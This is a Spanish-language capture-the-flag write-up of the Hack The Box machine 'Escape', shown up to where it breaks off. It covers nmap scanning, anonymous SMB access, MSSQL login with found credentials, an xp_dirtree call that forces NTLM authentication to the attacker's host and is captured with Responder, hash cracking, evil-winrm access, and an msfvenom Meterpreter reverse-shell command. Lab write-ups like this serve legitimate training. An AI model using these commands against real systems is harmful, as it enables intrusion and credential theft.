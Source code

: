 # EscapeWriteUp
Writeup de Escape HTB

Empezamos con un escaneo de nmap

~~~
sudo nmap -v -sS -oX vulnerabilidades.xml --stylesheet="https://svn.nmap.org/nmap/docs/nmap.xsl" --script=vuln 10.10.11.202 -Pn -p-
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225091888-805b94d6-57ee-498d-af53-2c3c3c00bea3.png)


Vemos smb en el 445, mssql en el 1433 y winrm en el 5985

Primero que nada entramos de forma anónima a smb 

![imagen](https://user-images.githubusercontent.com/108554878/225092170-f200660f-a15e-40b8-ae23-c93d50935bc2.png)

Vemos varias carpetas

Entremos a public

![imagen](https://user-images.githubusercontent.com/108554878/225092256-ca7e5137-d942-40ca-a97e-8a878a277018.png)

Vemos un pdf

Dentro del pdf encontramos unas credenciales

![imagen](https://user-images.githubusercontent.com/108554878/225092313-54426388-d5f5-476b-a821-4dc22c83dfdf.png)

Con esto nos logueamos en mssql

![imagen](https://user-images.githubusercontent.com/108554878/225092412-f47b7273-20a7-4d2c-80dd-b48e7ecb6589.png)

Estando aqui leemos que se puede hacer en mssql para entrar a la máquina

https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

Después de intentar varias cosas que vienen en la documentación ponemos

~~~
exec master.dbo.xp_dirtree '\\10.10.14.168\any\thing'
~~~

Seteamos con responder algo que consiga las credenciales NTLMv2

~~~
sudo responder -I tun0 -w 
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225092571-457a1cea-ac33-4e26-84c3-91273dd7b1c1.png)

Ahora crackeamos el hash

![imagen](https://user-images.githubusercontent.com/108554878/225092636-eb65cfa3-2f09-43ec-81e0-e86baa09556c.png)

Encontramos las credenciales y entramos con evilwinrm

![HTB](https://user-images.githubusercontent.com/108554878/225093047-66a8ac6e-ca60-4b73-aa5e-4236317578dd.png)

Entramos con evil-winrm

Vemos que hay un errorlog .BAK

Aquí encontramos las credenciales de Ryan.Cooper

![HTB](https://user-images.githubusercontent.com/108554878/225093457-d8d46db7-36ee-45a0-8b0d-e3299bb386db.png)

Con esto encontramos el user entrando desde evil-winrm

![HTB](https://user-images.githubusercontent.com/108554878/225094140-60254216-ca82-495b-aa7d-885bcf8614ad.png)

Cambio la sesión a meterpreter 

~~~
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP de mi máquina} LPORT=1232 -f exe > xddd.exe 
~~~

